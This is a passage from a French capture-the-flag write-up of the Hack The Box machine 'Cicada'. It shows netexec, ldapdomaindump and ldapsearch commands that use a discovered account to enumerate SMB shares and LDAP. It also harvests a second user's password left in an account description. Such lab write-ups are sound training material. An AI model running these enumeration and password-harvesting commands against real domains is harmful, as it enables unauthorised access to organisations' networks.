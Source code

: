 
Utilisons les nouveaux identifiants pour nous connecter via SMB.

```
netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```

![michael.wrightson available shares](/images/HTB-Cicada/micheal_smb.png)

Cet utilisateur a accès aux partages `NETLOGON` et `SYSVOL` en plus des deux partages précédents observés plus tôt. Malheureusement, aucun d'entre eux ne contient d'informations utiles.

Essayons de nous authentifier via LDAP.

```
netexec ldap cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![LDAP authentication michael.wrightson](/images/HTB-Cicada/LDAP_auth_michael.png)

L'authentification est un succès! Nous pouvons obtenir plus d'informations avec `ldapdomaindump`.

```
ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![ldapdomaindump](/images/HTB-Cicada/ldapdomaindump.png)

Dans `domain_users.html` nous remarquons que `david.orelious` a laissé son mot de passe (`aRt$Lp#7t*VQ!3`) dans la description.

![david.orelious password found](/images/HTB-Cicada/david_pwd.png)

---

Il est également possible d'utiliser `ldapsearch` pour obtenir le mot de passe.


Nous commençons par lister toutes les informations concernant le domaine.

```
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb'
```

La commande suivante permet d'afficher tous les noms d'utilisateurs du domaine.

```
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' "(objectClass=person)" | grep "sAMAccountName:"
```

![ldapsearch finds domain names](/images/HTB-Cicada/ldapsearch_domain_names.png)

Nous tentons de trouver quelques mots de passe à l'aide de la commande ci-dessous.

```
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' | grep pass
```
